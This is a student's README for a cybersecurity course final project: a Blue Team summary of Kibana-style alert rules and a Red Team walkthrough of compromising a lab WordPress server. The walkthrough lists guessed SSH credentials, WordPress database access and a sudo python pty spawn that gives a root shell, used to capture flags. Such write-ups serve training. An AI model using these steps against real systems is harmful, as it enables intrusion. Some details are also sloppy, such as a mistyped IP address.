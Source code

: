 # Final-Project
This is a private github repository meant to submit all of my findings and answers to the activities related to the Final Project.

# Blue Team: Summary of Operations

## Table of Contents
- Network Topology
- Description of Targets
- Monitoring the Targets
- Patterns of Traffic & Behavior
- Suggestions for Going Further

### Network Topology

The following machines were identified on the network:
- TARGET1
  - **Operating System**: Linux
  - **Purpose**: Runs Apache webserver 
  - **IP Address**:192.168.1.110
- TARGET2
  - **Operating System**: Linux
  - **Purpose**: Runs Apache webserver
  - **IP Address**:192.168.1.115
- Kali
  - **Operating System**: Linux
  - **Purpose**: Attacking Machine
  - **IP Address**: 192.168.1.90
- Capstone
  - **Operating System**: Linux
  - **Purpose**: Runs Apache webserver
  - **IP Address**: 192.168.1.105
- ELK
  - **Operating System**: Linux
  - **Purpose**: Runs Elasticsearch on the target machines.
  - **IP Address**: 19.168.1.100

### Description of Targets

The target of this attack was: `Target 1` 192.168.1.110.

Target 1 is an Apache web server and has SSH enabled, so ports 80 and 22 are possible ports of entry for attackers. As such, the following alerts have been implemented:
- **Excessive HTTP Errors**: WHEN count() GROUPED OVER top 5 'http.response.status_code' IS ABOVE 400 FOR THE LAST 5 minutes
- **HTTP Request Size Monitor**: WHEN sum() of http.request.bytes OVER all documents IS ABOVE 3500 FOR THE LAST 1 minute
- **CPU Usage Monitor**: WHEN max() OF system.process.cpu.total.pct OVER all documents IS ABOVE 0.5 FOR THE LAST 5 minutes

### Monitoring the Targets

Traffic to these services should be carefully monitored. To this end, we have implemented the alerts below:

#### Excessive HTTP Errors


Excessive HTTP Errors is implemented as follows:
  - **Metric**: Number of HTTP error codes (400 and up).
  - **Threshold**: Anything number of attempts that resulted in a 400 error code or above.
  - **Vulnerability Mitigated**: Brute Force Vulnerabilities could be mitigated with this alert. Any excessive amount of failed logins could clearly be brute force attempts into the network.
  - **Reliability**: This could cause some false negatives due to the error being set to trigger even one bad login attempt. However, it could prove valuable in monitoring overall failed attempts therefor making it difficult for successful brute force logins later on. I would rate this as medium reliability due to the sheer number of false alarms that would be created, however, it also does its job flawlessly in regards to alerting everytime a bad login is made, and in the process alerting for potential threat actor activity.

#### HTTP Request Size Monitor
HTTP Request Size Monitor is implemented as follows:
  - **Metric**: The amount of HTTP requests in a set amount of time.
  - **Threshold**: Anything above 3500 events in the last 1 minute would trigger the alert
  - **Vulnerability Mitigated**: If there was a significant number of traffic that is directed towards a specific file on the webserver, that would alert the blue team of a potential malicious threat actor snooping around our file system trying to access confidential data.
  - **Reliability**: TODO: This could show a lot of false negatives if it just so happens to be a busy weekend and there is a lot of traffic flowing in and out of the webserver. However, on a regular basis, this would be reliable in that if there is an absurd amount of traffic being picked up by our web server at an unusual time especially, that tells me that something suspicious is likely occuring. I would rate this as highly reliable.

#### CPU Usage Monitor
CPU Usage Monitor is implemented as follows:
  - **Metric**: CPU percentage use 
  - **Threshold**: Anything over .5% cpu being used on any file in the last 5 minutes.
  - **Vulnerability Mitigated**: This mitigates any issues with an excess amount of traffic or data flowing into a file which could prevent possible threat actors from tampering with files without getting caught.
  - **Reliability**: TODO: Normally I wouldn't expect file access and tampering to use up much CPU so I would rate this about medium reliability, this is because if something that is going to cause a significant amount of trouble is happening in our file system, I would expect higher CPU use than average. Only reason it isn't highly reliable is because sometimes hardware can effect how much CPU is being used, so if that hardware is outdated, it could potentially give you false negatives.



# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

![Command Output](https://github.com/Zatoid/Final-Project/blob/main/screenshots/nmap_scan_against_target_vm.PNG)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 SSH
  - Port 80 HTTP


The following vulnerabilities were identified on each target:
- Target 1
  - Wordpress vulnerability in which we input a wordpress command against the web server IP and enumerated the user info as well as their credentials.
  - Weak account credentials. We were able to easily guess Michaels account password which was just his name. Steven's password only took a few minutes to crack with John the Ripper.
  - Privilege escalation using a python script. This one I was able to find a CVE code on which is CVE-2006-0151. It has no official severity rating on nist.gov, however I would rate this as very severe. Escalating to root is the holy grail of all cyber attacks and to be able to do that from a user level with a simple python script is concerning.

![vulnerability scan 1](https://github.com/Zatoid/Final-Project/blob/main/screenshots/vuln_scan_1.PNG)
![vulnerability scan 2](https://github.com/Zatoid/Final-Project/blob/main/screenshots/vuln_scan_2.PNG)


### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - **Exploits**:
        - Brute forcing weak password credentials
        - Reading confidential files
      - **Commands**:
        - ssh michael@192.168.1.110 password: michael
        - cat /var/www/html/service.html
[]
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - _TODO: Brute forcing weak password credentials
      - _TODO: Reading confidential file
      - **Commands**
        - ssh michael@192.168.1.110 password: michael
        - cat /var/www/flag2.txt
  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - **Exploits**
        - Wordpress access due credentials being displayed in a publically accessible file.
      - **Commands**
        - Select * FROM wp_posts;
  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - **Exploits**
        - Weak credentials
        - Wordpress access
      - **Commands**
        - ssh steven@192.168.1.110 password: pink84
        - sudo python -c 'import pty;pty.spawn("/bin/bash")'
        - cd /
        - find -iname *flag*
        - cat flag4.txt
